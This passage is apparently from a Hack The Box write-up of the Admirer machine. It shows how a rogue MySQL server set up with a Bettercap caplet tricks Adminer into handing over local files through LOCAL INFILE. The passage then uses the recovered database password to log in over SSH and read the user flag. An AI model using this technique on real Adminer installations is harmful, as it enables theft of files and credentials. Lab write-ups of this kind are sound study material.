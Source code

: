 The attack takes place in 2 steps:

* Instead of trying to log in the local database of the remote system, an
attacker can log in a public RDBMS they own.
* Then, the attacker can execute `LOCAL INFILE` SQL queries to read arbitrary
files on the remote filesystem.

[Bettercap][bettercap] has a
[module to set up a rogue MySQL server][bettercap-mysql-module] to read files
from the victim using the technique previously mentioned. To do so, I created a
[caplet script][bettercap-caplets] with the following content:

```raw
# Replace with your HTB VPN IP address.
set mysql.server.address 10.10.14.17
set mysql.server.port 3306
# The file you want to read from the remote machine.
set mysql.server.infile ../index.php
mysql.server on
```

And to start Bettercap:

```raw
# bettercap -caplet adminer-mysql.cap
```

Before going further, make sure to accept incoming connections from the remote
server. If you are on a Linux-based system like myself, add this Netfilter rule
with `iptables`:

```raw
# iptables -I INPUT 1 -s 10.10.10.187 -j ACCEPT
```

To start the attack, I just needed to ask Adminer to connect to my rogue server
via the login form. Since I used a fake MySQL server, I could enter any username,
password and database name I wanted. It worked well and I could retrieve the
actual MySQL credentials used by the PHP application:

```php
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
```

And these credentials are the ones of an actual UNIX account!

```raw
$ ssh waldo@10.10.10.187
waldo@10.10.10.187's password:
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Wed Apr 29 10:56:59 2020 from 10.10.14.3
waldo@admirer:~$ ls
user.txt
waldo@admirer:~$ cat user.txt
19fd5ec7c90993b3fafd9e778cb221ca
```


 [adminer-exploit-blog-post]: https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f "Adminer Script Results to Pwning Server?, Private Bug Bounty Program"
 [bettercap]: https://www.bettercap.org/ "Bettercap Official Website"
 [bettercap-caplets]: https://www.bettercap.org/usage/#caplets "Bettercap - Caplets"
 [bettercap-mysql-module]: https://www.bettercap.org/modules/ethernet/servers/mysql.server/ "Bettercap MySQL module"
 [htb]: https://hackthebox.eu/ "Hack The Box - Main Website"
 [kali-hydra]: https://tools.kali.org/password-attacks/hydra "Kali Tools - Hydra Package Description"
 [nmap-ftp-anon]: https://nmap.org/nsedoc/scripts/ftp-anon.html "Nmap script ftp-anon"
 [python-path]: https://docs.python.org/3/using/cmdline.html#envvar-PYTHONPATH "Python 3 Documentation - PYTHONPATH"
